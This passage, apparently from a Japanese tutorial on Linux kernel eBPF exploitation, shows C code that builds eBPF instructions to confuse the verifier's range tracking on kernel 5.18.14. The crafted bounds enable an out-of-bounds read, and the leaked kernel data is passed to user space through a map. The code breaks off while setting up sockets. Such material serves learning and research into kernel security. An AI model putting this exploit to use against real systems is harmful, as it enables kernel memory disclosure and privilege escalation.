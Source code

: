 ```c

    // R1 --> var_off=(value=0; mask=0xffffffff00000000)
    BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_9, 0),
    BPF_ALU64_IMM(BPF_RSH, BPF_REG_1, 32),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32),
    // R2 --> var_off=(value=0xfffffffe00000001; mask=0)
    BPF_MOV64_IMM(BPF_REG_2, 0xfffffffe),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 1),
    // R1 --> (s32_min=1, s32_max=0, u32_min=1, u32_max=0) / actual:1
    BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),

    // R2 --> (s32_min=0, s32_max=1, u32_min=0, u32_max=1) / actual:1
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_9, 0),
    BPF_JMP32_IMM(BPF_JLE, BPF_REG_2, 1, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),

    // R1 --> 0 / actual: 1
    BPF_ALU64_REG(BPF_ADD, BPF_REG_1, BPF_REG_2),
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_IMM(BPF_SUB, BPF_REG_1, 1),

    // R1 --> 0 / actual: 0x100
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_1, 0x100),

    // 範囲外参照でデータをR2にリーク
    BPF_MOV64_REG(BPF_REG_3, BPF_REG_9),
    BPF_ALU64_REG(BPF_ADD, BPF_REG_3, BPF_REG_1),
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_3, 0),

    // リークしたデータをユーザー空間で受け取る
    BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_2, -0x10),
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08),
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10),
    BPF_MOV64_IMM(BPF_REG_ARG4, 0),          // flag
    BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
  };

  /* ソケット用に設定 */
  union bpf_attr prog_attr = {
    .prog_type = BPF_PROG_TYPE_SOCKET_FILTER,
    .insn_cnt = sizeof(insns) / sizeof(insns[0]),
    .insns = (uint64_t)insns,
    .license = (uint64_t)"GPL v2",
    .log_level = 2,
    .log_size = sizeof(verifier_log),
    .log_buf = (uint64_t)verifier_log
  };

  /* BPFプログラムをロード */
  int progfd = bpf(BPF_PROG_LOAD, &prog_attr);
  printf("%s\n", verifier_log);
  if (progfd == -1) fatal("bpf(BPF_PROG_LOAD)");

  /* ソケットを作成 */
  int socks[2];
```

[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外